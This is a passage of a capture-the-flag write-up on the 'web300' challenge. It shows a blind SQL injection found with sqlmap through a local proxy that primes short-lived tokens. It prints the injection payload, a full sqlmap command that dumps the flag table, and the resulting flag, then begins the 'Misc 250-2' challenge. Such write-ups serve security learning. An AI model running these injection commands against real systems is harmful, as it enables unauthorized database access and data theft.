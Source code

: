 <p>(We had further issues with the user-agent, so we also set the user-agent at the proxy to resolve them)</p>

<p>This nearly worked, but we noticed that it was rejecting most of our requests. We suspected that check.php was rejecting <code>web_300_tokens</code> which were too new. Experimentally, we determined that tokens newer than 2 seconds old were not valid, so to be safe, we inserted a 5-second sleep in our <code>--eval</code> code after priming the proxy.</p>

<p>Finally, sqlmap was able to work its magic and probe the database, albeit with requests spaced by around 5 seconds. Using a single proxy also meant that we could not use multiple sqlmap threads, although if desired we could have fixed that by including a complicated token queue in the proxy.</p>

<pre><code>---
Place: POST
Parameter: username
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: username=asdf' AND 7617=7617 AND 'SRYh'='SRYh
    Vector: AND [INFERENCE]
---
</code></pre>

<p>Listing tables as before showed that there is a table named <code>the_elusive_flag</code> containing a single row.</p>

<pre><code>sqlmap -u http://backdoor.cognizance.org.in/problems/web300/check.php \
   --data="username=asdf" --proxy=http://127.0.0.1:7222 \
   --eval="import urllib,time; urllib.urlopen('http://backdoor.cognizance.org.in/problems/web300/status.php', \
           proxies={'http':'http://127.0.0.1:7222'}); time.sleep(5)" \
   --threads=1 -v 6 --dbms=mysql -T the_elusive_flag --dump -D blind_sqli_db
</code></pre>

<p>In the column named <code>this_column_has_the_flag</code> of the single row, we find, against all odds, a flag!</p>

<pre><code>Database: blind_sqli_db
Table: the_elusive_flag
[1 entry]
+----------------------------------+
| this_column_has_the_flag         |
+----------------------------------+
| 9d4dcc5981b17bf37740c7dbabe3b294 |
+----------------------------------+
</code></pre>


<h3>Misc 250-2</h3>

<blockquote>
  <p>Username and password based login seemed a bit too monotonous. We developed an
indigenous image based login system.</p>

<p>The login service is available <a href="http://backdoor.cognizance.org.in/problems/misc250-2/login/">here</a>.</p>
